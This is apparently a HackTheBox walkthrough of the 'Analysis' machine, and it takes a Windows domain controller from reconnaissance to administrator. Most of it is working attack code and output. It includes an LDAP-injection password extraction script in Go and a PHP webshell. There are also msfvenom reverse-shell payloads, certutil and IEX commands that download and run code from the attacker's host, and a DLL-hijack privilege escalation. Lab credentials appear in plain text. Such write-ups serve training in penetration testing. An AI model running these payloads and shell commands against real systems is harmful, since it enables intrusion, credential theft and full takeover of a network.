


# 🍍 Analysis HackTheBox Walkthrough!!

<figure><figcaption></figcaption></figure>

Add **analysis.htb** host to **/etc/hosts**.

```
sudo nano /etc/hosts
```

**NMAP RESULT.**

```
┌──(Batman㉿GC)-[~]
└─$ nmap -A 10.10.11.250 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-23 12:04 IST
Nmap scan report for 10.10.11.250
Host is up (0.20s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-23 06:35:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3306/tcp open  mysql         MySQL (unauthorized)
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-23T06:36:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.32 seconds
```

Subdomain Enumeration

```
┌──(Batman㉿GC)-[~]
└─$ gobuster dns -d analysis.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r analysis.htb:53
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     analysis.htb
[+] Threads:    10
[+] Resolver:   analysis.htb:53
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.analysis.htb

Found: internal.analysis.htb

Found: gc._msdcs.analysis.htb

Found: domaindnszones.analysis.htb

Found: forestdnszones.analysis.htb

Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

Let add these domains also to the **/etc/hosts**.

Lets check for any Internal portal with a login page.

```
┌──(Batman㉿GC)-[~]
└─$  gobuster dir -u http://internal.analysis.htb/dashboard -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --follow-redirect --add-slash -x php 
```

We can find:

```
http://internal.analysis.htb/employees/login.php
```

Username Enumeration.

```
┌──(Batman㉿GC)-[~]
└─$ cp /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt possible-usernames.txt// Some code
```

```
┌──(Batman㉿GC)-[~]
└─$ sed -i "s|$|@analysis.htb|" possible-usernames.txt
```

```
┌──(Batman㉿GC)-[~]
└─$ git clone https://github.com/ropnop/kerbrute.git
Cloning into 'kerbrute'...
remote: Enumerating objects: 845, done.
remote: Counting objects: 100% (47/47), done.
remote: Compressing objects: 100% (29/29), done.
remote: Total 845 (delta 18), reused 36 (delta 17), pack-reused 798
Receiving objects: 100% (845/845), 419.71 KiB | 3.23 MiB/s, done.
Resolving deltas: 100% (371/371), done.
```

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ go build
go: downloading github.com/ropnop/gokrb5/v8 v8.0.0-20201111231119-729746023c02
go: downloading github.com/op/go-logging v0.0.0-20160315200505-970db520ece7
go: downloading github.com/spf13/cobra v1.1.1
go: downloading github.com/spf13/pflag v1.0.5
go: downloading github.com/jcmturner/gofork v1.0.0
go: downloading github.com/jcmturner/dnsutils/v2 v2.0.0
go: downloading github.com/hashicorp/go-uuid v1.0.2
go: downloading golang.org/x/crypto v0.0.0-20201016220609-9e8e0b390897
go: downloading github.com/jcmturner/rpc/v2 v2.0.2
go: downloading github.com/jcmturner/aescts/v2 v2.0.0
go: downloading golang.org/x/net v0.0.0-20200114155413-6afb5195e5aa// Some code
```

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ ./kerbrute userenum -d analysis.htb ../possible-usernames.txt --dc analysis.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/23/24 - Ronnie Flathers @ropnop

2024/01/23 13:17:16 >  Using KDC(s):
2024/01/23 13:17:16 >   analysis.htb:88

2024/01/23 13:17:16 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/01/23 13:18:14 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/01/23 13:18:20 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/01/23 13:20:10 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/01/23 13:21:25 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/01/23 13:22:44 >  [+] VALID USERNAME:       technician@analysis.htb
2024/01/23 13:27:14 >  [+] VALID USERNAME:       JDoe@analysis.htb
```

**LDAP INJECTION**&#x20;

After number of **gobuster** run, We can find

```
http://internal.analysis.htb/users/list.php
```

[Insecure Direct Object Reference Prevention Cheat Sheet](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiCueeJhfODAxWIg\_0HHcSCAPAQFnoECBgQAQ\&url=https%3A%2F%2Fcheatsheetseries.owasp.org%2Fcheatsheets%2FInsecure\_Direct\_Object\_Reference\_Prevention\_Cheat\_Sheet.html\&usg=AOvVaw1fA3l27LDYdiU6\_t7-VfJd\&opi=89978449)

The parameter and eventually come to `name`

```
http://internal.analysis.htb/users/list.php?name=1
```

```
http://internal.analysis.htb/users/list.php?name=*
```

<figure><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*">http://internal.analysis.htb/users/list.php?name=*</a></p></figcaption></figure>

Save the script below with **.go** extension

```
package main

import (
 "bufio"
 "fmt"
 "io/ioutil"
 "net/http"
 "os"
 "strings"
)

func main() {
 // Prompt user for wordlist input
 fmt.Print("Enter the wordlist or charset (press Enter to use the default): ")
 scanner := bufio.NewScanner(os.Stdin)
 scanner.Scan()
 charsetPath := strings.TrimSpace(scanner.Text())

 // Use default wordlist if user didn't provide one
 if charsetPath == "" {
  charsetPath = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
 }

 baseURL := "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
 foundChars := ""

 file, err := os.Open(charsetPath)
 if err != nil {
  fmt.Println("Error opening charset file:", err)
  return
 }
 defer file.Close()

 scanner = bufio.NewScanner(file)
 for scanner.Scan() {
  char := strings.TrimSpace(scanner.Text())
  //fmt.Println("Trying character:", char)
  //thisisthat := "OnlyWorkingInput:"
  
  modifiedURL := strings.Replace(baseURL, "{FUZZ}", char, 1)
  modifiedURL = strings.Replace(modifiedURL, "{found_char}", foundChars, 1)
  fmt.Println("Modified URL:", modifiedURL)
  //fmt.Println(thisisthat,"{found_char}",foundChars, 1)
  
  response, err := http.Get(modifiedURL)
  if err != nil {
   fmt.Println("Error making HTTP request:", err)
   return
  }
  defer response.Body.Close()

  body, err := ioutil.ReadAll(response.Body)
  if err != nil {
   fmt.Println("Error reading response body:", err)
   return
  }

  if strings.Contains(response.Status, "200 OK") && strings.Contains(string(body), "technician") {
   fmt.Println("Found character:", char)
   foundChars += char
   file.Seek(0, 0) // Move the file pointer to the beginning for another iteration
  }
 }

 if err := scanner.Err(); err != nil {
  fmt.Println("Error reading charset file:", err)
  return
 }

 fmt.Println("Final found characters:", foundChars)
}
```

Run the script

The script searches through the characters, If it encounters a technician nickname on the page, it memorizes the character. The script is not perfect, but it allows us to find half of the password up to the \* symbol.

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ go run script.go

...
Modified URL: http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*)

```

Now we approach with last modified url from above,

```
http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=*)
```

<figure><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*1*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*1*)</a></p></figcaption></figure>

<figure><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4*)</a></p></figcaption></figure>

<figure><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4q*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4q*)</a></p></figcaption></figure>

<figure><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4Q*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4Q*)</a></p></figcaption></figure>

<figure><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4QP96Bv)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4QP96Bv)</a></p></figcaption></figure>

Lets check for the password

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ ./kerbrute bruteuser -d analysis.htb --dc analysis.htb passwords.txt technician
  
  __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 01/22/24 - Ronnie Flathers @ropnop

2024/01/23 13:52:57 >  Using KDC(s):
2024/01/23 13:52:57 >   analysis.htb:88

2024/01/23 13:52:57 >  [+] VALID LOGIN:  technician@analysis.htb:97NTtl*4QP96Bv
2024/01/23 13:52:57 >  Done! Tested 1 logins (1 successes) in 0.242 seconds

```

The result is applied to given page below.

VALID LOGIN: technician@analysis.htb:97NTtl\*4QP96Bv

```
http://internal.analysis.htb/employees/login.php
```

<figure><figcaption><p><a href="http://internal.analysis.htb/employees/login.php">http://internal.analysis.htb/employees/login.php</a></p></figcaption></figure>

**GAINING SHELL ACCESS**&#x20;

In SOC Report Upload php webshell code.

<figure><figcaption></figcaption></figure>

```
┌──(Batman㉿GC)-[~/Analysis]
└─$ cat webshell.php          
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Once you uploaded the file you can check it by&#x20;

```
http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami
```

<figure><figcaption><p><a href="http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami">http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami</a></p></figcaption></figure>

Create a payload using **msfvenom**

```
┌──(Batman㉿GC)-[~/Analysis]
└─$  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.56 LPORT=4444 -f exe -o exp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: exp.exe
```

Now run following commands in different terminals.

```
┌──(Batman㉿GC)-[~/Analysis]
└─$ python3 -m http.server 8080
```

```
┌──(Batman㉿GC)-[~]
└─$ msfconsole                                                                           
Metasploit tip: After running db_nmap, be sure to check out the result 
of hosts and services

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.56:4444 
[*] Sending stage (200774 bytes) to 10.10.11.250
[*] Meterpreter session 1 opened (10.10.14.56:4444 -> 10.10.11.250:50959) at 2024-01-23 17:03:01 +0530

meterpreter > shell
Process 5684 created.
Channel 1 created.
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits r�serv�s.

C:\inetpub\internal\dashboard\uploads>
```

In the Beginning, You should start python server.

Second, You should start metasploit framework and do the settings and give run. You won’t get meterpreter shell initially.

For that you should upload the payload in the following ie command line option we got in webpage by uploading php reverse shell code and execute.

```
certutil -urlcache -f http://10.10.16.20:8080/s.exe %temp%/s.ex
```

<figure><figcaption></figcaption></figure>

You will get an message, Next you should give execute another command to get meterpreter shell in metasploit.

```
start %temp%/s.exe
```

<figure><figcaption></figcaption></figure>

By running this you will get access to meterpreter shell.

```
meterpreter > shell
Process 5684 created.
Channel 1 created.
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits r�serv�s.

C:\inetpub\internal\dashboard\uploads>
```

We can find LDAP password and username which may be possibly useful for further enumerations.

```
C:\inetpub\internal\users>type list.php
type list.php
<?php

//LDAP Bind paramters, need to be a normal AD User account.
error_reporting(0);
$ldap_password = 'N1G6G46G@G!j';
$ldap_username = 'webservice@analysis.htb';
$ldap_connection = ldap_connect("analysis.htb");
```

No we should run **RunasCs** as webservice.

```
┌──(Batman㉿GC)-[~]
└─$ wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
```

```
┌──(Batman㉿GC)-[~]
└─$ unzip RunasCs.zip
Archive:  RunasCs.zip
  inflating: RunasCs.exe             
  inflating: RunasCs_net2.exe
```

Now we should upload **RunasCs.exe** in the temporary directory of the meterpreter shell

```
meterpreter > cd C:/Windows/TEMP
meterpreter > pwd
C:\Windows\TEMP
meterpreter > upload RunasCs.exe runascs.exe
[*] Uploading  : /home/Batman/RunasCs.exe -> runascs.exe
[*] Uploaded 50.50 KiB of 50.50 KiB (100.0%): /home/Batman/RunasCs.exe -> runascs.exe
[*] Completed  : /home/Batman/RunasCs.exe -> runascs.exe
meterpreter >
```

Download **Invoke-ConPtyShell** and start web-server:

```
┌──(Batman㉿GC)-[~]
└─$ wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
```

Now run custom netcat listener on the local machine in another terminal.

```
┌──(Batman㉿GC)-[~]
└─$stty raw -echo; (stty size; cat) | nc -lvnp 4443
```

While In meterpreter as techinican run the following command.

```
C:\Windows\TEMP>runascs.exe "webservice" "N1G6G46G@G!j" "powershell.exe -c IEX(IWR -UseBasicParsing 'http://10.10.14.56:80/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.56 -RemotePort 4443 -Rows 120 -Cols 38 -CommandLine cmd.exe" -d "analysis.htb"
runascs.exe "webservice" "N1G6G46G@G!j" "powershell.exe -c IEX(IWR -UseBasicParsing 'http://10.10.14.56:80/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.56 -RemotePort 4443 -Rows 120 -Cols 38 -CommandLine cmd.exe" -d "analysis.htb"
[*] Warning: The logon for user 'webservice' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

No output received from the process.
```

While running the above, In netcat listener you will get another access ie **analysis\webservice**.

```
┌──(Batman㉿GC)-[~]
└─$stty raw -echo; (stty size; cat) | nc -lvnp 4443
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits réservés.

C:\Windows\system32>whoami
analysis\webservice
```

Create a new reverse shell payload using **msfvenom**.

```
┌──(Batman㉿GC)-[~]
└─$msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 -f exe -o s1.exe
```

In another terminal run Metasploit.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4445
lport => 4445
msf6 exploit(multi/handler) > run
```

In console **analysis\webservice**, run the following command.

```
C:\Windows\system32>powershell -c "cmd /c certutil -urlcache -f http://10.10.14.56:8080/s1.exe %temp%/s1.exe"
****  En ligne  ****
CertUtil: -URLCache La commande s’est terminée correctement.

C:\Windows\system32>start %temp%/s1.exe
```

By running this you will get another metepreter shell.

```
meterpreter > shell
Process 2540 created.
Channel 1 created.
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits r�serv�s.

C:\Windows\system32>
```

Next download PrivescCheck, upload into server and run it

```
┌──(Batman㉿GC)-[~]
└─$wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

```
meterpreter > cd Temp
meterpreter > upload PrivescCheck.ps1
[*] Uploading  : /home/Batman/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Uploaded 157.47 KiB of 157.47 KiB (100.0%): /home/Batman/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Completed  : /home/Batman/PrivescCheck.ps1 -> PrivescCheck.ps1
meterpreter >
```

Now run the following command.

```
C:\Windows\TEMP>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML"
```

```
Domain   : analysis.htb.
Username : jdoe
Password : 7y4Z4^*y9Zzj
```

Now run **runascs.exe** in **analysis\svc\_web** (First Meterpreter shell)

```
C:\Windows\TEMP>.\runascs.exe "jdoe" "7y4Z4^*y9Zzj" "powershell.exe -c IEX(IWR -UseBasicParsing 'http://10.10.14.56:80/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.56 -RemotePort 4443 -Rows 120 -Cols 38 -CommandLine cmd.exe" -d "analysis.htb"running this you will get access to another shell.
```

Before running this command you should start a netcat listener on another terminal.

```
┌──(Batman㉿GC)-[~]
└─$stty raw -echo; (stty size; cat) | nc -lvnp 4443

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
analysis\jdoe

C:\Windows\system32>
```

Here you got **analysis\jdoe** as webservice.

Now again run another metasploit framework in another terminal.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4445
lport => 4445
msf6 exploit(multi/handler) > run
```

In console as **analysis\jdoe** , run the following command.

```
C:\Windows\system32> powershell -c "cmd /c certutil -urlcache -f http://10.10.16.20:8080/s1.exe %temp%/s1.exe"
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```
C:\Windows\system32> start %temp%/s1.exe
```

Now you will get **user access** in meterpreter shell.

```
meterpreter > shell
Process 4888 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\jdoe

C:\Windows\system32>cd C:\Users\jdoe\Desktop
cd C:\Users\jdoe\Desktop

C:\Users\jdoe\Desktop>type user.txt
type user.txt
6289da5500147e70185d1---------

C:\Users\jdoe\Desktop>
```

**PRIVILEGE ESCALATION**

Add these lines after **openssl\_init**

```
┌──(Batman㉿GC)-[~]
└─$ sudo nano /etc/ssl/openssl.cnf

...

[openssl_init]
providers = provider_sect

[provider_sect]
default = default_sect
legacy = legacy_sect
```

Now run

```
┌──(Batman㉿GC)-[~]
└─$ evil-winrm -u "jdoe" -i "analysis.htb" -p "7y4Z4^*y9Zzj"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> 
```

```
*Evil-WinRM* PS C:\Users\jdoe\Desktop> dir


    Directory: C:\Users\jdoe\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/23/2024   2:45 PM             34 user.txt


*Evil-WinRM* PS C:\Users\jdoe\Desktop> cd C:\snort\lib
*Evil-WinRM* PS C:\snort\lib> icacls snort_dynamicpreprocessor
snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                          BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                          BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                          BUILTIN\Utilisateurs:(I)(CI)(AD)
                          BUILTIN\Utilisateurs:(I)(CI)(WD)
                          CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)
```

Create the reverse shell payload **.dll** using **msfvenom.**

```
┌──(Batman㉿GC)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o sf_shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: sf_shell.dll
```

Before Uploading payload **.dll** file into **C:\snort\lib\snort\_dynamicpreprocessor**, Start Metasploit framework in another terminal and start run. Once you Upload the file into **C:\snort\lib\snort\_dynamicpreprocessor,** You will get administrator access in meterpreter shell.

```
*Evil-WinRM* PS C:\snort\lib> cd C:\snort\lib\snort_dynamicpreprocessor
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> upload sf_shell.dll sf_engine.dll
                                        
Info: Uploading /home/Batman/sf_shell.dll to C:\snort\lib\snort_dynamicpreprocessor\sf_engine.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor>
```

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.56:4444 
[*] Sending stage (200774 bytes) to 10.10.11.250
[*] Meterpreter session 1 opened (10.10.14.56:4444 -> 10.10.11.250:49323) at 2024-01-23 20:08:39 +0530

meterpreter > shell
Process 6980 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\administrateur

C:\Windows\system32>cd C:\Users\Administrateur\Desktop
cd C:\Users\Administrateur\Desktop

C:\Users\Administrateur\Desktop>type root.txt
type root.txt
dc980376fb1d18a------------

C:\Users\Administrateur\Desktop>
```

Hurray!! Got the root access.

<figure><figcaption><p><a href="https://www.buymeacoffee.com/b4tm4n">https://www.buymeacoffee.com/b4tm4n</a></p></figcaption></figure>
